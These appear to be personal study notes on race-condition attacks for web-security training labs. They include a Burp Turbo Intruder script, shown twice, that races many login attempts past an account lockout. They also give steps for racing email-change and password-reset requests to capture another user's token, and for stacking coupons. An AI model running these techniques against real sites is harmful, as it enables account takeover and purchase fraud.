 ```
Failing password 3 times blocks user, but not session, you can try other users
-> Count of request to block user could be server side controlled
-> Send the group of requests again, but this time in parallel. 
-> For details on how to do this, see [Sending requests in parallel]
-> Study the responses. Notice that although you have triggered the account lock, more than three requests received the normal `Invalid username and password` response.
-> Use Turbo Intruder Extension (examples/race-single-packet-attack.py) with the following template and copy to to your clipboard the passwords:


def queueRequests(target, wordlists):
    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )  
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard 
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)


Change Your email to the one of other user:
carlos@ginandjuice.shop
-> Send in paralel two requests, the first with carlos mail, the second with yours, recieve the mail in your server


Try obtaining reset token of carlos:
-> GET /forgot-password without cookies, copy csrf and cookie to one POST /forgot-password request and change user to carlos
-> In other Post /forgot-password with new cookie and csrf
-> Send group in parallel till a collision appears and you are assigned the same token as carlos (blind, you have to test the link)

```



To identify:
- Try seeing if the condition is attached to a session for example, there may be a time lapse between the client submit and the server actually committing the action. Or the lock is applied per user not session

To exploit:
- Try applying coupons in group (send in parallel)
- If a delay is noticed in a response, try racing the expensive item having a cheaper one. Add Item + purchase requests in parallel
- Try 2 requests to see if you can recieve the code of an arbitrary mail. You mail server + arbitrary mail in parallel
![[Pasted image 20240209230831.png]]
- Try seeing if php cookies are set on forgot password for example, send two change password requests, one with the cookie and csrf of null session. If you get same token on the email you found a collision that takes only a timestamp but not user, change the username to carlos on the first request and send again in parallel, copy your link and change the user to carlos to access his password reset link.
- Brute Force with Turbo Intruder Extension
Turbo Intruder template, takes wordlist from clipboard
```python
def queueRequests(target, wordlists):
    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )  
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard 
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```

